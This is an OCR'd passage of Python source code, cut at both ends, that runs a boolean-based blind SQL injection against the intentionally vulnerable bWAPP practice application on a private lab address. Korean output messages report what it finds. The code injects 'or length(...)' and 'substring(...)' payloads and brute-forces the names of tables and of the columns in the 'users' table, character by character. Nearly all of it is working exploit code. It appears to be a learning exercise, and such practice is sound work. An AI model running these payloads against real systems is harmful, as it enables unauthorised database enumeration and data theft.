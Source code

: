 ```python
            url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or length((select table_name from information_schema.tables where table_schema='bwapp' limit {i},1))={length}%23&action=search"
            res=requests.get(url,cookies=cookies)
            if "The movie exists in our database!" in res.text:
                len_arr.append(length)
                print(f'{i+1} 번째 테이블의 길이는{length}입니다.')
                print(len_arr)
                break
            else:
                length+=1
    while 1:
        a=0
        for i in len_arr:
            for j in range(1,i+1):
                for k in stringlist:
                    url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or substring((select table_name from information_schema.tables where table_schema='bwapp' limit {a},1),{j},1)='{k}'%23&action=search"
                    res=requests.get(url,cookies=cookies)
                    if "The movie exists in our database!" in res.text:
                        ch+=k
                        break
            str_arr.append(ch)
            ch=''
                    #print(url)
            a+=1
        break
    print(f"해당 데이터베이스에 존재하는 테이블들은{str_arr}입니다.")
def column_count():
    cnt=0
    while 1:
        cnt+=1
        url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or (select count(*) from information_schema.columns where table_schema='bwapp' and table_name='users')={cnt}%23&action=search"
        res=requests.get(url,cookies=cookies)
        if "The movie exists in our database!" in res.text:
                print(f"현재 선택하신 테이블 내의 존재하는 컬럼은{cnt}가지 입니다.")
                return cnt
                break
    
def column(column_count):
    len_arr=[]
    str_arr=[]
    ch=''
    stringlist=string.ascii_letters+string.digits+string.punctuation
    for i in range(column_count):
        length=1
        while 1:
            url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or length((select column_name from information_schema.columns where table_schema='bwapp' and table_name='users' limit {i},1))={length}%23&action=search"
            res=requests.get(url,cookies=cookies)
            if "The movie exists in our database!" in res.text:
                len_arr.append(length)
                print(f'{i+1} 번째 컬럼의 길이는{length}입니다.')
                print(len_arr)
                break
            else:
                length+=1
    while 1:
        a=0
        for i in len_arr:
            for j in range(1,i+1):
```